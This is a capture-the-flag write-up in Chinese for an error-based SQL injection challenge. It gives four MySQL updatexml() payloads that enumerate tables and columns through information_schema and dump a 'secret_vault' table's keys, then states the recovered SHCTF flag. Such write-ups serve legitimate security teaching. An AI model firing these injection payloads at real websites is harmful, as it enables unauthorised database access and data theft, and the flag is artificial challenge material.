




# 上古遗迹档案馆

## Tag

SQL 报错注入

***

## Writeup

从权限可以联想到触发报错试试，`1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#` 查看表名：

`1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('secret_vault')),0x7e),1))#` 查看字段：

`1'or(updatexml(1,concat(0x7e,(select(group_concat(id,'~',secret_key))from(secret_vault)),0x7e),1))#` 查看字段：

`1'or(updatexml(1,concat(0x7e,(select(group_concat((right(secret_key,25))))from(secret_vault)),0x7e),1))#` 查看右半段：

拼接即得 `SHCTF{26420830-72f5-4a81-859d-a3e0819de939}`